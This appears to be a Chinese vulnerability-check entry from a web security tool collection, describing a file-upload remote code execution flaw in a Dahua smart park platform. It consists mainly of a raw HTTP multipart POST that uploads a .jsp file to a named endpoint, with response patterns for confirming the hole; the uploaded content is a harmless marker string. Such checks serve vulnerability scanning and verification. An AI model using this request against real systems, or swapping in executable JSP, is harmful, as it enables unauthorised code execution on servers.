 ﻿# 华智慧园区文件上传RCE

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
POST /emap/devicePoint_addImgIco?hasSubsystem=true HTTP/1.1
Content-Type: multipart/form-data; boundary=A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT

--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT
Content-Disposition: form-data; name="upload"; filename="dude.jsp"
Content-Type: application/octet-stream
Content-Transfer-Encoding: binary

dude
--A9-oH6XdEkeyrNu4cNSk-ppZB059oDDT--
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?code)(?=.*?data).*?$

> 上传文件定位：

> 验证文件来源：Dude Suite Web Security Tools - https://www.dudesuite.cn - 转载请注明出处
